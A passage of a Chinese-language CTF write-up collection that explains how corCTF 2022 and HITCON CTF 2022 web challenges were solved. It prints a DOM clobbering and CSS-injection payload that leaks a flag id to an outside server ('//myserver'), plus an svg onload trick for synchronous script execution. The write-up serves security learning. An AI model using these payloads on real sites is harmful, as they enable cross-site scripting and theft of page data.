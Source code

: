 而我們現在在的是 `/posts/:id` 頁面，所以沒辦法拿到 `/home` 頁面的內容，自然也就不能這樣做。

這題的關鍵點是一個很有趣的 DOM clobbering 應用，現在 React app 基本上都是用 [react-router](https://reactrouter.com/en/main) 這個 lib 來做路由的，這個 lib 裡面會去拿 `document.defaultView.history`，去看網址是什麼，來決定 render 哪個頁面。

而 `document.defaultView` 可以被 DOM clobbering 影響，像這樣：

```html hljs
<iframe name=defaultView src=/home></iframe>
```

如此一來，`document.defaultView.history` 就變成了 `/home`，因此，我們只要用 iframe srcdoc 就可以在 React app 裡面再渲染一個 React app，並且用前面提過的 CSS injection 把 flag id 拿出來：

```html hljs
<iframe srcdoc="
  <iframe name=defaultView src=/home></iframe><br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }
  
  </style>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

我之前寫過的英文 writeup：[https://blog.huli.tw/2022/08/21/en/corctf-2022-modern-blog-writeup/](https://blog.huli.tw/2022/08/21/en/corctf-2022-modern-blog-writeup/)

### HITCON CTF 2022 - Self Destruct Message

原本在用 `element.innerHTML = str` 的時候都是非同步的，但利用神奇的 `<svg><svg>` 即可做到同步：

```html hljs
const div = document.createElement('div')
div.innerHTML = '<svg><svg onload=console.log(1)>'
console.log(2)
```

會先輸出 1 再來 2，而且不用插到 DOM 就會生效。

相關討論可以看：[https://twitter.com/terjanq/status/1421093136022048775](https://twitter.com/terjanq/status/1421093136022048775)

writeup：[https://blog.huli.tw/2022/12/08/ctf-js-notes/#hitcon-ctf-2022](https://blog.huli.tw/2022/12/08/ctf-js-notes/#hitcon-ctf-2022)

### SekaiCTF 2022 - Obligatory Calc
